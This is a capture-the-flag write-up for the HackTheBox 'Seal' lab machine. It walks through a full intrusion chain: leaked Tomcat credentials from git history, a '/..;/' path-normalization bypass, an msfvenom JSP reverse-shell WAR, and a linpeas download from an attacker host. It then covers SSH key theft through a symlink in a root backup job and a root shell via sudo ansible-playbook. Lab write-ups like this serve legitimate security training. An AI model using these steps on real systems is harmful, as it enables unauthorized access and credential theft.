


# HACKTHEBOX: Seal

Seal is a Linux box running two web apps. The second webapp is a gitbucket app with plaintext Tomcat creds. Logging into Tomcat leads to the WAR RCE
After gaining access to the system, a cronjob performing routine backups by creating a symlink from User SSH keys to the backup files.
After getting the SSH keys, the user can run ansible-playbook as root without a password.

## Recon and Enumeration
First, run an nmap scan on the box. There is a web app on port 443 running nginx, and there's another web app on port 8080.
```
# Nmap 7.92 scan initiated Sun Dec 12 13:34:32 2021 as: nmap -AT5 -p- -oA seal -v 10.10.10.250
Nmap scan report for seal.htb (10.10.10.250)
Host is up (0.12s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-05T10:24:03
| Not valid after:  2022-05-05T10:24:03
| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Sun, 12 Dec 2021 20:36:43 GMT
|     Set-Cookie: JSESSIONID=node01jvp2kry6ybg81jjyqcy32k3zi161.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Sun, 12 Dec 2021 20:36:42 GMT
|     Set-Cookie: JSESSIONID=node0zglqmmb1mu8918b21nbtomfpx159.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 12 Dec 2021 20:36:42 GMT
|     Set-Cookie: JSESSIONID=node019qtc8436cb1x2t8hbx3028ey160.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=12/12%Time=61B65D59%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,F6,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Sun,\x2012\x
SF:20Dec\x202021\x2020:36:42\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node0zglq
SF:mmb1mu8918b21nbtomfpx159\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20
SF:Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/h
SF:tml;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,10A,"
SF:HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2012\x20Dec\x202021\x2020:36:4
SF:2\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node019qtc8436cb1x2t8hbx3028ey160
SF:\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x20197
SF:0\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAll
SF:ow:\x20GET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRe
SF:quest,AD,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20te
SF:xt/html;charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20c
SF:lose\r\n\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Ve
SF:rsion</pre>")%r(FourOhFourRequest,F7,"HTTP/1\.1\x20401\x20Unauthorized\
SF:r\nDate:\x20Sun,\x2012\x20Dec\x202021\x2020:36:43\x20GMT\r\nSet-Cookie:
SF:\x20JSESSIONID=node01jvp2kry6ybg81jjyqcy32k3zi161\.node0;\x20Path=/;\x2
SF:0HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r
SF:\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\
SF:r\n")%r(Socks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5
SF:\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2
SF:069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>r
SF:eason:\x20Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\
SF:.1\x20400\x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/
SF:html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20clos
SF:e\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20chara
SF:cter\x20CNTL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20
SF:character\x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-
SF:1\r\nContent-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Me
SF:ssage\x20400</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pr
SF:e>");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 39.070 days (since Wed Nov  3 11:56:03 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   120.07 ms 10.10.14.1
2   120.80 ms seal.htb (10.10.10.250)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 12 13:37:04 2021 -- 1 IP address (1 host up) scanned in 152.59 seconds
```

##### Enumerating port 443
Visiting https://seal.htb shows the web app on port 443. There are some input fields, but fuzzing these fields don't show any interesting results.


Run ffuf `ffuf -w ~/Wordlists/directories.txt -u 'https://seal.htb/FUZZ' -c | tee seal.ffuf` to search for directories and other objects. There appears to be a `/admin` page.
```
images                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 124ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 123ms]
icon                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 122ms]
css                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 126ms]
js                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 122ms]
backup                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 122ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 123ms]
```

This admin page shows that the box is running Apache Tomcat/9.0.31, so Nginx is likely just running as a reverse proxy.


[Here is a useful page for pentesting tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat). It mentions that a few interesting paths such as `/manager/html` and `/manager/status`.

Attempting to access `/manager/html` returns *403 Forbidden*.


Accessing `/manager/status` presents a login, but default credentials don't work.


##### Enumerating port 8080
Port 8080 appears to be running a *GitBucket* app.


Simply create an account and sign in.


After signing in, the new user can view the news feed and existing git repositories. After taking a look, there appears to be three users: *root*, *luis*, and *alex* and three repositories: `root/seal_market` and `root/infra`.


After some digging, the Tomcat credentials file is found in `root/seal_market/tomcat/tomcat-users.xml`


All of these tomcat users are commented out, so there is nothing too interesting. However since this is a git repository, checking the history of the file might show interesting info.


There are two commits that made changes to the `tomcat-users.xml` file. Viewing the most recent commit will show the changes. It shows that plaintext tomcat creds `tomcat:42MrHBf*z8{Z%`.



Use these credentials to log into tomcat at https://seal.htb/manager/status


However, standard path traversal with the `https://seal.htb/manager/status/../html` sequence does not allow a redirec to to `/manager/html`.

According to [this article](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/), Tomcat (the backend) and Nginx (the reverse proxy) normalize paths differently, so using the `/..;/` sequence allows the attacker to access the `/manager/html` page via `https://seal.htb/manager/status/..;/html`.


## Exploitation and user.txt
A War file can be uploaded to the `/manager/html` page to gain a reverse shell. Generate an msfvenom war payload with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1337 -f war -o payload.war`


Uploading the war file returns *403 Forbidden*, because it makes a request underneath `/manager/html`.


To bypass this, intecept the war upload request to `/manager/status/..;/html` using BurpSuite's proxy.


Go back to `https://seal.htb/manager/status/..;/html` to verify the successful payload upload.


Start a listener with `nc -lvnp 1337` and then visit https://seal.htb/payload/lyibvpiewin.jsp in the web browser to abuse code execution.

Upgrade the shell with
```
python3 -c "__import__('pty').spawn('/bin/bash')"
Ctrl+Z
stty -echo raw
fg
export TERM=linux
```

Run linpeas
```
sadeli@attacker: ~$ python3 -m http.server 8000
tomcat@seal:/var/lib/tomcat9$ cd /tmp
tomcat@seal:/tmp$ wget http://attacker_ip:8000/linpeas.sh
tomcat@seal:/tmp$ chmod +x linpeas.sh
tomcat@seal:/tmp$ ./linpeas.sh | tee linpeas.txt
tomcat@seal:/tmp$ less -r /tmp/linpeas.txt
```

There appears to be two cron jobs running as root:
```
root       27938  0.0  0.0   8356  3344 ?        S    06:51   0:00  _ /usr/sbin/CRON -f
root       27939  0.0  0.0   2608   600 ?        Ss   06:51   0:00      _ /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Inspect the contents of /opt/backups/playbook/run.yml
```
tomcat@seal:/tmp$ cat /opt/backups/playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/tmp$
```

This ansible playbook makes a backup up of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` and saves it to `/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz` while preserving symlinks. View the contents of the dashboard. Everyone has full write access to the uploads directory.
```
tomcat@seal:/tmp$ cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 Oct 14 07:03 uploads
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ 
```

Run the command `ln -sf /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and wait for the cron job to make the backup.
```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ cd uploads
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -la
total 8
drwxrwxrwx 2 root   root   4096 Oct 14 07:03 .
drwxr-xr-x 7 root   root   4096 May  7 09:26 ..
lrwxrwxrwx 1 tomcat tomcat   16 Oct 14 07:03 .ssh -> /home/luis/.ssh/
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$
```

Copy and extract the archive
```
tomcat@seal:/tmp$ ls /opt/backups/archives/
backup-2021-10-14-07:51:32.gz  backup-2021-10-14-07:53:32.gz
tomcat@seal:/tmp$ cp /opt/backups/archives/backup-2021-10-14-07:53:32.gz /tmp/bak.gz
tomcat@seal:/tmp$ gzip -d bak.gz
tomcat@seal:/tmp$ tar -xvf bak
```

This reveals the archived `dashboard` with luis's ssh key
```
tomcat@seal:/tmp$ cd dashboard/uploads/.ssh/
tomcat@seal:/tmp/dashboard/uploads/.ssh$ ssh -i id_rsa luis@127.0.0.1
Could not create directory '/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:YTRJC++A+0ww97kJGc5DWAsnI9iusyCE4Nt9fomhxdA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
luis@seal:~$ 
```

## Privilege Escalation and root.txt

View programs luis can run as root. luis may run `/usr/bin/ansible-playbook *` as root without a password.
```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
luis@seal:~$
```

Follow the gtfobins guide for privilege escalation https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo
```
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
